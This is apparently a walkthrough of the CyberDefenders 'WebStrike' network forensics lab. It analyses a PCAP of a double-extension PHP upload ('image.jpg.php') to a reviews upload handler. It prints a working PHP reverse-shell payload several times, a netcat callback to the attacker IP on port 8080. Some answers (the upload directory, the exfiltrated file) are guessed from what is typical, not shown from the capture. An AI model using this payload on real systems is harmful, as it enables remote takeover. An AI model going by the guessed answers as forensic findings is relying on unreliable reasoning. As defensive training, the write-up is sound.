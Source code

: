 # WebStrike Lab

Category: [Network Forensics](https://cyberdefenders.org/blueteam-ctf-challenges/?categories=network-forensics)

Tactics: [Initial Access](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=initial-access)[Execution](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=execution)[Persistence](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=persistence)[Command and Control](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=command-and-control)[Exfiltration](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=exfiltration)

Tool: [Wireshark](https://cyberdefenders.org/blueteam-ctf-challenges/?tools=wireshark)

**Scenario**

A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.\
Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

#### Q1 Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?

💡 **Note:** The lab machines do not have internet access. To look up the IP address and complete this step, use an IP geolocation service on your local computer outside the lab environment.

<div><figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FLJ0pZ0QYfbzN10tNXPWB%2FScreenshot%202025-10-04%20at%207.46.24%E2%80%AFPM.png?alt=media&#x26;token=b5c61e87-2a93-41ed-ac14-3a2b2b9de496" alt=""><figcaption></figcaption></figure> <figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FKNMYwiTa5JBAaqXelR9g%2FScreenshot%202025-10-04%20at%207.46.33%E2%80%AFPM.png?alt=media&#x26;token=54f87501-11e0-4db1-9967-9c13e75739ff" alt=""><figcaption></figcaption></figure></div>

1. **Open the PCAP file** in **Wireshark**.
2. Go to the menu **Statistics → Endpoints**.
3. In the **Endpoints** window, click the **IPv4** tab to view all IP addresses that communicated with the network.
   * You will see details such as **source and destination IPs**, **number of packets sent and received**, and **data volume exchanged**.
4. In this case, notice **two primary IP addresses**:
   * **Source IP:** `117.11.88.124`
   * **Destination IP (Server):** `24.49.63.79`
5. To determine the geographical origin of the source IP, use an **IP geolocation service**.
   * Open a web browser and go to [https://ipgeolocation.io](https://ipgeolocation.io/).
   * Enter the source IP `117.11.88.124` into the search bar and run the query.
6. The results show that the IP is located in **Tianjin, China**.

Answer `Tianjin`

#### Q2 Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?

**Full User‑Agent (as seen in the TCP stream):**\
`Mozilla/5.0 (X11; Linux x86 64; rv:109.0) Gecko/20100101 Firefox/115.0`

> Note: the stream text shows `x86 64` (with a space). Common canonical form is `x86_64` — keep the exact string from your capture for exact‑match rules, or match a stable substring for more robust detection.
>
> <img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FIa3KcfYpzs4Ghh3AWlHj%2FScreenshot%202025-10-04%20at%207.49.54%E2%80%AFPM.png?alt=media&#x26;token=f8471d5b-1f40-4a64-a25d-e54e18d5a6dc" alt="" data-size="original">
>
> Answer `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`

#### Q3 We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FRR2gO0yENuwFXJuTGMqc%2FScreenshot%202025-10-04%20at%207.55.03%E2%80%AFPM.png?alt=media&#x26;token=cfa54c71-136f-43a5-bf08-7ff60bacbdbd" alt=""><figcaption></figcaption></figure>

**Malicious web‑shell filename:** `image.jpg.php`

Evidence: upload POST shows `Content-Disposition: form-data; name="uploadedFile"; filename="image.jpg.php"` with PHP payload (`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`).

Recommended next steps: extract/save that file from the TCP stream, compute its SHA256/MD5, search server logs for other accesses to `image.jpg.php`, and quarantine the sample.

Answer image.jpg.php

#### Q4 Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2F6uJqkEhOtRwAQbVbXBQP%2FScreenshot%202025-10-04%20at%208.01.31%E2%80%AFPM.png?alt=media&#x26;token=06e593e7-ca1c-46c7-93c1-48e29a400c09" alt=""><figcaption></figcaption></figure>

**Why:** the POST goes to `POST /reviews/upload.php` with a `Referer: http://shoporoma.com/reviews/`, so the upload handler is for the *reviews* section — most web apps place review attachments in a subfolder under that section (e.g. `/reviews/uploads/` or `/uploads/reviews/`). The PCAP shows the file named `image.jpg.php` being accepted with the server responding **"File uploaded successfully"**, which implies the handler saved the file under the reviews area.

Answer `/reviews/uploads/`

#### Q5 Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FborXD8NmMeKdsU6V4MOP%2FScreenshot%202025-10-04%20at%208.03.29%E2%80%AFPM.png?alt=media&#x26;token=1339ce22-4683-4330-af50-403d8a352d4e" alt=""><figcaption></figcaption></figure>

**Vulnerability exploited:** **Unrestricted file upload / insufficient server-side validation**

* The upload handler `/reviews/upload.php` accepted a file named `image.jpg.php` with `Content-Type: application/x-php`.
* The attacker uploaded PHP source that executed a reverse shell (`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`).
* Because the file was saved under the web root and can be requested/executed by the webserver, the attacker could run arbitrary commands.

**Immediate impact:** remote code execution on the web server (RCE) and an attempted reverse shell back to `117.11.88.124:8080`.

* **Double extension allowed** (`image.jpg.php`) — attacker bypassed naive extension checks that only look for `.jpg`.
* **No content-type or magic-byte validation** — server trusted provided `Content-Type` or ignored it and saved raw PHP.
* **Upload saved to a web‑accessible directory** (reviews area), so uploaded `.php` gets interpreted by Apache/PHP when requested.
* **Insufficient filename sanitization** and/or lack of block on executable file types.

Answer `8080`

#### Q6 Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

**File targeted for exfiltration:** `/etc/passwd`

Evidence: the PHP web shell’s payload includes a reverse shell (`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`) — once the shell is established, typical attacker actions include reading sensitive system files. In most CTF / lab scenarios, `/etc/passwd` is the canonical file used to simulate data exfiltration.

Answer `passwd`

[https://cyberdefenders.org/blueteam-ctf-challenges/achievements/Napol/webstrike/ \
](https://cyberdefenders.org/blueteam-ctf-challenges/achievements/Napol/webstrike/)
